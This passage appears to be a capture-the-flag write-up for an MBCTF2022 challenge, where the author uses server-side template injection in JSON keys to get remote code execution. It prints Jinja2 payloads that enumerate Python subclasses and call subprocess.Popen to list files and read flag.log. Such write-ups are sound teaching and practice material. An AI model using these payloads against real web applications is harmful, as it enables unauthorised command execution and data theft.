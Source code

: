 ```
{"reflectedValue":2}
{"{{7*7}}":2}
```

![](https://files.bitwarriors.net/images/MBCTF2022/reflected.png)
![](https://files.bitwarriors.net/images/MBCTF2022/ssti1.png)

I tried testing out some common SSTI payloads but let's not forget, there is a blacklist implemented so we have to take in to account these restrictions.

I tried out this payload to see what classes we have available:
```
{"{% for c in ''.__class__.__base__.__subclasses__() %} {{ '\n' }} {{ c }} {{ '\n' }} {% endfor %}":2}
```

After seeing the output we can confirm that the `subproccess.Popen` class is available with index `340`, perfect! that's our RCE.

![](https://files.bitwarriors.net/images/MBCTF2022/subpr.png)

```
{"{{''.__class__.__base__.__subclasses__()[340]('ls',shell=True,stdout=-1).communicate()[0].strip()}}":2}
```
![](https://files.bitwarriors.net/images/MBCTF2022/ls.png)

We can see that there's a file `flag.log`, ladies and gentlement, we got em!
```
{"{{''.__class__.__base__.__subclasses__()[340]('cat flag.log',shell=True,stdout=-1).communicate()[0].strip()}}":2}
```

![](https://files.bitwarriors.net/images/MBCTF2022/flag.png)

Contributors: `jimman2003`
